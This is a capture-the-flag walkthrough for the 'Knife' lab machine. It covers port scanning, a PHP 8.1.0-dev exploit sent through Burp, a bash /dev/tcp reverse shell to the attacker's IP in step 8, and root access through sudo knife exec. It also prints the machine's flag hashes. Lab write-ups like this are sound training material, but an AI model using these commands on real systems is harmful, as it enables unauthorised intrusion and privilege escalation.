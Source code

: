 ![Knife.PNG](/assets/Machines/Easy/Knife/Knife.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.242
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.242
```

**Output**
```bash
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

3. Use **whatweb** to discover services in web page
```bash
┌──(root㉿kali)-[/home/kali]
└─| whatweb 10.10.10.242
```

**Output**
```bash
http://10.10.10.242 [200 OK] Apache[2.4.41], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.10.242], PHP[8.1.0-dev], Script, Title[Emergent Medical Idea], X-Powered-By[PHP/8.1.0-dev]
```

4. Search exploit of `PHP/8.1.0-dev`

**Output**

![exploit.PNG](/assets/Machines/Easy/Knife/exploit.PNG)

5. Capture a petition of web page with **Burpsuite**

![petition.PNG](/assets/Machines/Easy/Knife/petition.PNG)

6. Include the exploit in petition, run any command to test

![pet_x.PNG](/assets/Machines/Easy/Knife/pet_x.PNG)


**Output**

![output1.PNG](/assets/Machines/Easy/Knife/output1.PNG)

7. Listen with **nc** in port **443**
8. Execute a command to get a reverse shell

* Command: `bash -c 'bash -i >& /dev/tcp/10.10.14.18/443 0>&1`

9. Put the command in petition and run

**Output**
```bash
┌──(root㉿kali)-[/home/kali]
└─| nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.14.18] from (UNKNOWN) [10.10.10.242] 48524
bash: cannot set terminal process group (967): Inappropriate ioctl for device
bash: no job control in this shell
james@knife:/$ whoami
whoami
james
```

10. Cat **user flag**
```bash
james@knife:~$ cat user.txt 
0e5bdfa30d5df6156a2abcf355a5311c
```

11. Use **sudo -l** to find files we can execute how root temporaly
```bash
james@knife:~$ sudo -l
Matching Defaults entries for james on knife:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User james may run the following commands on knife:
    (root) NOPASSWD: /usr/bin/knife
```

12. Search in **https://gtfobins.github.io/** how exploit this binary.


![gto.PNG](/assets/Machines/Easy/Knife/gto.PNG)

13. Execute the command
```bash
james@knife:~$ sudo knife exec -E 'exec "/bin/sh"'
# whoami
root
```

14. Cat **root flag**
```bash
# cat /root/root.txt
87235b7b4c03e164310f2e6adb6f0ee1
```